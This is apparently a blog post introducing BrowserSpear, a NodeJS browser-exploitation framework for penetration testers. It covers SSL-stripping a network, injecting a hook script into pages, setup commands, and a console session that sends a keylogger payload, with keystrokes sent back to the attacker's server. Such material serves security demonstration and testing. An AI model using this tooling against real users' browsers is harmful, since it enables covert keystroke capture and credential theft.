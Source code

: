 ```yaml
---
layout: post
---
```

![Intro Browserspear]({{ "/assets/intro_browserspear.jpg" | absolute_url }})

_With the rise of more IoT devices and other cheap off-the-shelf development platforms there is an opportunity to optimize the toolsets of Red-teamers, Penetration Testers and Ethical Hackers. To take full advantage of these devices we need our frameworks to be light and flexible. In this article, I want to present a tool that I built called 'BrowserSpear'. It consist of a basic framework to exploit browsers and is capable of working on all architectures with basic server capacity. Feedback is always welcome._

When demonstrating the need for network security, there are few tools that can really get the appropriate reaction and are easy enough to demo to a crowd of people without actually sending malicious code or using an exploit which might crash the device.

A great demo is to try to downgrade the security of traffic on a network from SSL to unencrypted HTTP. [We can do this](https://demgeeks.com/hackotg-v1-4-see-all-traffic-on-a-network) with tools such as [Bettercap](https://www.bettercap.org), [SSLstrip](https://moxie.org/software/sslstrip/) or another variant. After this security downgrade, it is possible to inject extra code into HTTP connections to make the website's background pink or give an alert. Just something that is very noticable to a user and that will get a reaction.

What takes this to the next level is Browser Exploitation. The very famous tool [BeEF](http://beefproject.com/) (Browser Exploitation Framework Project) can control the complete website a target loaded over an unsecure connection after an extra script is injected into it which 'hooks' the client and makes it receive commands from [BeEF](http://beefproject.com/).

## The issue

Browser Exploitation is nothing new and BeEF is a well-known tool, but it is a bit older, and needs a lot of extra dependencies. Here is were the usage of old libraries like libv8 and specific Ruby gems start to become an issue. Which makes it almost impossible to install on the newer architectures like ARM.

We see many auditing devices built on a mobile architecture such as ARM surface such as the [WiFi Pineapple](https://www.wifipineapple.com/), [Packet Squirrel](https://www.hak5.org/gear/packet-squirrel) and even [your own rooted Android smartphone](https://null-byte.wonderhowto.com/how-to/rooted-android-your-new-pentesting-tool-0159093). Which are compact tools that make a great portable and reliable platform. Using these devices on-the-go or for example a Raspberry Pi as a low-powered server in the cloud is an excellent use of these new and cheaper devices to audit networks and demonstrate attack vectors.

## So what is BrowserSpear?

>Browserspear is a lightweight framework built on the [NodeJS](https://nodejs.org/en/) engine. The complete core and modules are written in Javascript and adding payloads is as simple as writing an extra function and saving it in the 'modules' folder.

A device that has the server capacity to run NodeJS will be able to act as a server to 'spear' browsers and the complete behavior of the server can be controlled from a shell prompt or scripted beforehand.

BrowserSpear is still under development, but can be found in [this Github repo](https://github.com/larsveelaert/browserspear). The core functionalities like code delivery and hooking or 'spearing' targets are fully working.

## How to get started
With NodeJS and NPM installed (through your favourite package manager). Clone the Github-repo and install the following packages:

```
git clone https://github.com/larsveelaert/browserspear.git
npm install websockets prompt uglify-js commander
```

Starting a console session is as simple as running the script. --help will give you all the extra info you need for advanced configuration.

```
$ node browserspear.js --help
  Usage: browserspear [options]
  
  Options:
    -V, --version             output the version number
    -c, --commandfile <file>  file with commands to run in the console
    -p, --port <port>         Port to listen on
    -i, --ip <ip>             The ip address to use in the reverse connection
    -s, --start               Start a listener immediatly
    -h, --help                output usage informatio
```

In the BrowserSpear console. You can get a list of available commands by typing 'help'. Here is an extract:

```
>>> help
Available commands:
- start | restart 
	Restarts the server that serves the spear and provides the socket to connect to
- set <property> <value>
      Sets a value used by the server or module. ex. 'set LHOST: mydomain.org'
- options
      List all the values of the options.
- load <module>
      Loads the functions inside that module. Only one module can be selected at once. ex. 'load keylogger'
- modules <search>
      Gives a list of all available modules, with an optional searchterm.
- exec
      Executes the 'exec' function of the current selected module. Ex. send a payload
- conns
      List all connections to the server
- help
      Print this help.
```

The default address of the spear is localhost:1337. So navigating to this address on you local device running the server (started with start). Would give you the following output:

```
>>> start
>>> Tue Jan 02 2018 14:11:14 GMT+0000 (UTC) Server is listening on port 1337
New connection to client at ::1
>>> conns
List of connections:
 [0] ::1
```

Now we can load a module, for example an attack that logs all keystrokes in that browser called a keylogger. By default, the attack is sent to all the clients connected. The client will then record the keystrokes and send them to the server. The attack will stay active, even if the server is restarted or the module is unloaded.

```
>>> load keylogger
>>> keylogger: exec
Payload sent
>>> keylogger: 
https://www.linkedin.com/redir/invalid-link-page?url=%5B%3A%3A1%5D KEYLOGGER:I will now tell you all my secrets
```

Thats it for the basic usage. As you have control over the full webpage. There is no limit on what you can do within the constraints of Javascript. There are already known attacks to get persistance on the full-domain, cross-domain and even cross-browser.

Looking forward to the [Progressive Web Applications](https://developers.google.com/web/progressive-web-apps/). There is a need to correctly mitigate against this attack vector because the native API's already available in the browser are quite powerful and can be easily used against the user (ex. HTML5 webcam, Mic, GPS, Contacts, File access, ...). The ever smaller gap between online and offline will create a need for strong security analysis so system access can be strictly controlled.

## Goals and Roadmap
BrowserSpear will keep expanding it's capabilities aiming towards connection types (including obfiscation/evasion) and pre-configured payloads to make the complete framework very easy to use and very 'hackable'.

As it is an open-source project, development will happen through [its Github page](https://github.com/larsveelaert/browserspear). Please feel free to contact me for more info, give feedback or even help to develop the project to its full potential.

Happy spearing!
